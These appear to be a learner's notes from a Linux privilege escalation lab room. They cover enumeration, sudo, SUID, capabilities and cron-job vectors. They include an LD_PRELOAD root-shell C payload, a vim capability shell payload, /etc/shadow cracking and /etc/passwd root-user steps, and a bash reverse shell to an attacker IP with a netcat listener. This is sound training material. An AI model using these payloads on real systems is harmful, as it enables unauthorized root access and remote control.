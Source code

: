 #+TITLE: Linux Privilege Escalation

* Introduction

Privilege escalation is a journey. There are no silver bullets, and much depends on the specific configuration of the target system. The kernel version, installed applications, supported programming languages, other users' passwords are a few key elements that will affect your road to the root shell.

This room was designed to cover the main privilege escalation vectors and give you a better understanding of the process. This new skill will be an essential part of your arsenal whether you are participating in CTFs, taking certification exams, or working as a penetration tester.

*  What is privilege escalation

What does "privilege escalation" mean?

At it's core, Privilege Escalation usually involves going from a lower permission account to a higher permission one. More technically, it's the exploitation of a vulnerability, design flaw, or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

Why is it important?

It's rare when performing a real-world penetration test to be able to gain a foothold (initial access) that gives you direct administrative access. Privilege escalation is crucial because it lets you gain system administrator levels of access, which allows you to perform actions such as:

   * Resetting passwords
   * Bypassing access controls to compromise protected data
   * Editing software configurations
   * Enabling persistence
   * Changing the privilege of existing (or new) users
   * Execute any administrative command

* Enumeration

Note: Launch the target machine attached to this task to follow along.

You can launch the target machine and access it directly from your browser.

Alternatively, you can access it over SSH with the low-privilege user credentials below:


Username: karen
Password: Password1

Enumeration is the first step you have to take once you gain access to any system. You may have accessed the system by exploiting a critical vulnerability that resulted in root-level access or just found a way to send commands using a low privileged account. Penetration testing engagements, unlike CTF machines, don't end once you gain access to a specific system or user privilege level. As you will see, enumeration is as important during the post-compromise phase as it is before.

** hostname


The hostname command will return the hostname of the target machine. Although this value can easily be changed or have a relatively meaningless string (e.g. Ubuntu-3487340239), in some cases, it can provide information about the target system’s role within the corporate network (e.g. SQL-PROD-01 for a production SQL server).

** uname -a

Will print system information giving us additional detail about the kernel used by the system. This will be useful when searching for any potential kernel vulnerabilities that could lead to privilege escalation.

** /proc/version

The proc filesystem (procfs) provides information about the target system processes. You will find proc on many different Linux flavours, making it an essential tool to have in your arsenal.

Looking at /proc/version may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.


** /etc/issue

Systems can also be identified by looking at the /etc/issue file. This file usually contains some information about the operating system but can easily be customized or changes. While on the subject, any file containing system information can be customized or changed. For a clearer understanding of the system, it is always good to look at all of these.

** ps Command

The ps command is an effective way to see the running processes on a Linux system. Typing ps on your terminal will show processes for the current shell.

The output of the ps (Process Status) will show the following;

  * PID: The process ID (unique to the process)
  * TTY: Terminal type used by the user
  * Time: Amount of CPU time used by the process (this is NOT the time this process has been running for)
  * CMD: The command or executable running (will NOT display any command line parameter)

The “ps” command provides a few useful options.

  * ps -A: View all running processes
  * ps axjf: View process tree (see the tree formation until ps axjf is run below)


  * ps aux: The aux option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x). Looking at the ps aux command output, we can have a better understanding of the system and potential vulnerabilities.

** env


The env command will show environmental variables.



The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.

** sudo -l


The target system may be configured to allow users to run some (or all) commands with root privileges. The sudo -l command can be used to list all commands your user can run using sudo.

** ls

One of the common commands used in Linux is probably ls.


While looking for potential privilege escalation vectors, please remember to always use the ls command with the -la parameter. The example below shows how the “secret.txt” file can easily be missed using the ls or ls -l commands.

** Id


The id command will provide a general overview of the user’s privilege level and group memberships.


It is worth remembering that the id command can also be used to obtain the same information for another user as seen below.


** /etc/passwd


Reading the /etc/passwd file can be an easy way to discover users on the system.



While the output can be long and a bit intimidating, it can easily be cut and converted to a useful list for brute-force attacks.


Remember that this will return all users, some of which are system or service users that would not be very useful. Another approach could be to grep for “home” as real users will most likely have their folders under the “home” directory.



** history

Looking at earlier commands with the history command can give us some idea about the target system and, albeit rarely, have stored information such as passwords or usernames.


** ifconfig


The target system may be a pivoting point to another network. The ifconfig command will give us information about the network interfaces of the system. The example below shows the target system has three interfaces (eth0, tun0, and tun1). Our attacking machine can reach the eth0 interface but can not directly access the two other networks.




This can be confirmed using the ip route command to see which network routes exist.



** netstat


Following an initial check for existing interfaces and network routes, it is worth looking into existing communications. The netstat command can be used with several different options to gather information on existing connections.


  * netstat -a: shows all listening ports and established connections.
  * netstat -at or netstat -au can also be used to list TCP or UDP protocols respectively.
  * netstat -l: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol (below)



    netstat -s: list network usage statistics by protocol (below) This can also be used with the -t or -u options to limit the output to a specific protocol. 



    netstat -tp: list connections with the service name and PID information.



This can also be used with the -l option to list listening ports (below)



We can see the “PID/Program name” column is empty as this process is owned by another user.

Below is the same command run with root privileges and reveals this information as 2641/nc (netcat)


    netstat -i: Shows interface statistics. We see below that “eth0” and “tun0” are more active than “tun1”.



The netstat usage you will probably see most often in blog posts, write-ups, and courses is netstat -ano which could be broken down as follows;

    -a: Display all sockets
    -n: Do not resolve names
    -o: Display timers



** find Command

Searching the target system for important information and potential privilege escalation vectors can be fruitful. The built-in “find” command is useful and worth keeping in your arsenal.

Below are some useful examples for the “find” command.

Find files:

  * find . -name flag1.txt: find the file named “flag1.txt” in the current directory
  * find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory
  * find / -type d -name config: find the directory named config under “/”
  * find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)
  * find / -perm a=x: find executable files
  * find /home -user frank: find all files for user “frank” under “/home”
  * find / -mtime 10: find files that were modified in the last 10 days
  * find / -atime 10: find files that were accessed in the last 10 day
  * find / -cmin -60: find files changed within the last hour (60 minutes)
  * find / -amin -60: find files accesses within the last hour (60 minutes)
  * find / -size 50M: find files with a 50 MB size

This command can also be used with (+) and (-) signs to specify a file that is larger or smaller than the given size.

The example above returns files that are larger than 100 MB. It is important to note that the “find” command tends to generate errors which sometimes makes the output hard to read. This is why it would be wise to use the “find” command with “-type f 2>/dev/null” to redirect errors to “/dev/null” and have a cleaner output (below).


Folders and files that can be written to or executed from:

  * find / -writable -type d 2>/dev/null : Find world-writeable folders
  * find / -perm -222 -type d 2>/dev/null: Find world-writeable folders
  * find / -perm -o w -type d 2>/dev/null: Find world-writeable folders

The reason we see three different “find” commands that could potentially lead to the same result can be seen in the manual document. As you can see below, the perm parameter affects the way “find” works.


  * find / -perm -o x -type d 2>/dev/null : Find world-executable folders

Find development tools and supported languages:

  * find / -name perl*
  * find / -name python*
  * find / -name gcc*

Find specific file permissions:

Below is a short example used to find files that have the SUID bit set. The SUID bit allows the file to run with the privilege level of the account that owns it, rather than the account which runs it. This allows for an interesting privilege escalation path,we will see in more details on task 6. The example below is given to complete the subject on the “find” command.

  * find / -perm -u=s -type f 2>/dev/null: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. 

** General Linux Commands

As we are in the Linux realm, familiarity with Linux commands, in general, will be very useful. Please spend some time getting comfortable with commands such as find, locate, grep, cut, sort, etc. 

* Automated Enumeration Tools

Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.

    LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
    LinEnum: https://github.com/rebootuser/LinEnum
    LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
    Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
    Linux Priv Checker: https://github.com/linted/linuxprivchecker 

* Privilege Escalation: kernel Exploits

Note: Launch the target machine attached to this task to follow along.

You can launch the target machine and access it directly from your browser.

Alternatively, you can access it over SSH with the low-privilege user credentials below:


Username: karen
Password: Password1


Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


Unless a single vulnerability leads to a root shell, the privilege escalation process will rely on misconfigurations and lax permissions.


The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges.


The Kernel exploit methodology is simple;

   1) Identify the kernel version
   2) Search and find an exploit code for the kernel version of the target system
   3) Run the exploit 

Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit.


Research sources:

   1) Based on your findings, you can use Google to search for an existing exploit code.
   2) Sources such as https://www.linuxkernelcves.com/cves can also be useful.
   3) Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).


Hints/Notes:

   1) Being too specific about the kernel version when searching for exploits on Google, Exploit-db, or searchsploit
   2) Be sure you understand how the exploit code works BEFORE you launch it. Some exploit codes can make changes on the operating system that would make them unsecured in further use or make irreversible changes to the system, creating problems later. Of course, these may not be great concerns within a lab or CTF environment, but these are absolute no-nos during a real penetration testing engagement.
   3) Some exploits may require further interaction once they are run. Read all comments and instructions provided with the exploit code.
   4) You can transfer the exploit code from your machine to the target system using the SimpleHTTPServer Python module and wget respectively.

    

* Privilege Escalation: Sudo

Note: Launch the target machine attached to this task to follow along.

You can launch the target machine and access it directly from your browser.

Alternatively, you can access it over SSH with the low-privilege user credentials below:


Username: karen
Password: Password1

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the sudo -l command.

https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

Leverage application functions

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (-f : specify an alternate ServerConfigFile).


Loading the /etc/shadow file using this option will result in an error message that includes the first line of the /etc/shadow file.

Leverage LD_PRELOAD

On some systems, you may see the LD_PRELOAD environment option.


LD_PRELOAD is a function that allows any program to use shared libraries. This [[https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/][Blog post]] will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

  1) Check for LD_PRELOAD (with the env_keep option)
  2) Write a simple C code compiled as a share object (.so extension) file
  3) Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

gcc -fPIC -shared -o shell.so shell.c -nostartfiles


We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows;

sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

This will result in a shell spawn with root privileges.


How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

A : sudo nmap --interactive

* Privilegescalation: SUID

Note: Launch the target machine attached to this task to follow along.

You can launch the target machine and access it directly from your browser.

Alternatively, you can access it over SSH with the low-privilege user credentials below:


Username: karen
Password: Password1

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.

You will notice these files have an “s” bit set showing their special permission level.

find / -type f -perm -04000 -ls 2>/dev/null will list files that have SUID or SGID bits set.

A good practice would be to compare executables on this list with GTFOBins (https://gtfobins.github.io). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list https://gtfobins.github.io/#+suid).


The list above shows that nano has the SUID bit set. Unfortunately, GTFObins does not provide us with an easy win. Typical to real-life privilege escalation scenarios, we will need to find intermediate steps that will help us leverage whatever minuscule finding we have.





The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the /etc/shadow file or adding our user to /etc/passwd.


Below are simple steps using both vectors.

reading the /etc/shadow file

We see that the nano text editor has the SUID bit set by running the find / -type f -perm -04000 -ls 2>/dev/null command.

nano /etc/shadow will print the contents of the /etc/shadow file. We can now use the unshadow tool to create a file crackable by John the Ripper. To achieve this, unshadow needs both the /etc/shadow and /etc/passwd files.


The unshadow tool’s usage can be seen below;
unshadow passwd.txt shadow.txt > passwords.txt


With the correct wordlist and a little luck, John the Ripper can return one or several passwords in cleartext. For a more detailed room on John the Ripper, you can visit https://tryhackme.com/room/johntheripper0


The other option would be to add a new user that has root privileges. This would help us circumvent the tedious process of password cracking. Below is an easy way to do it:


We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.

openssl passwd -1 -salt THM password1


We will then add this password with a username to the /etc/passwd file.



Once our user is added (please note how root:/bin/bash was used to provide a root shell) we will need to switch to this user and hopefully should have root privileges.

* Privilege Escalation: Capabilities

Note: Launch the target machine attached to this task to follow along.

You can launch the target machine and access it directly from your browser.

Alternatively, you can access it over SSH with the low-privilege user credentials below:


Username: karen
Password: Password1

Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.
The capabilities man page provides detailed information on its usage and options.

We can use the getcap tool to list enabled capabilities.

When run as an unprivileged user, getcap -r / will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.

Please note that neither vim nor its copy has the SUID bit set. This privilege escalation vector is therefore not discoverable when enumerating files looking for SUID.

GTFObins has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

We notice that vim can be used with the following command and payload:

./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

This will launch a root shell as seen below;

* Privilege Escalation: Cron Jobs

Note: Launch the target machine attached to this task to follow along.

You can launch the target machine and access it directly from your browser.

Alternatively, you can access it over SSH with the low-privilege user credentials below:


Username: karen
Password: Password1

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under /etc/crontab

While CTF machines can have cron jobs running every minute or every 5 minutes, you will more often see tasks that run daily, weekly or monthly in penetration test engagements.

#+BEGIN_SRC
cat /etc/crontab
#+END_SRC
You can see the backup.sh script was configured to run every minute. The content of the file shows a simple script that creates a backup of the prices.xls file.

#+BEGIN_SRC bash
  cat backup.sh

  #!/bin/bash
  BACKUPTIME=`date +%b-%d-%y`
  DESTINATION=/home/alper/Documents/backup-$BACKUPTIME.tar.gz
  SOURCEFOLDER=/home/alper/Documents/commerical/prices/xls
  tar -cpzf $DESTINATION $SOURCEFOLDER
  
#+END_SRC



As our current user can access this script, we can easily modify it to create a reverse shell, hopefully with root privileges.

The script will use the tools available on the target system to launch a reverse shell.
Two points to note;

   1) The command syntax will vary depending on the available tools. (e.g. nc will probably not support the -e option you may have seen used in other cases)
   2) We should always prefer to start reverse shells, as we not want to compromise the system integrity during a real penetration testing engagement.

The file should look like this;

#+BEGIN_SRC bash
  cat backup.sh

  #!/bin/bash
  bash -i >& /dev/tcp/10.0.2.15/6666 0>&1
  // NOTE  I FIXED THIS
  //
  // bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
  // (from gtfobins.github.io)
#+END_SRC

We will now run a listener on our attacking machine to receive the incoming connection.

#+BEGIN_SRC bash
  nc -nlvp 6666

  listening on 6666....
  connect to [10.0.2.15] from [10.0.2.12] 43550

#+END_SRC

Crontab is always worth checking as it can sometimes lead to easy privilege escalation vectors. The following scenario is not uncommon in companies that do not have a certain cyber security maturity level:

    System administrators need to run a script at regular intervals.
    They create a cron job to do this
    After a while, the script becomes useless, and they delete it
    They do not clean the relevant cron job

This change management issue leads to a potential exploit leveraging cron jobs.


The example above shows a similar situation where the antivirus.sh script was deleted, but the cron job still exists.
If the full path of the script is not defined (as it was done for the backup.sh script), cron will refer to the paths listed under the PATH variable in the /etc/crontab file. In this case, we should be able to create a script named “antivirus.sh” under our user’s home folder and it should be run by the cron job.


The file on the target system should look familiar:



The incoming reverse shell connection has root privileges:



In the odd event you find an existing script or task attached to a cron job, it is always worth spending time to understand the function of the script and how any tool is used within the context. For example, tar, 7z, rsync, etc., can be exploited using their wildcard feature.


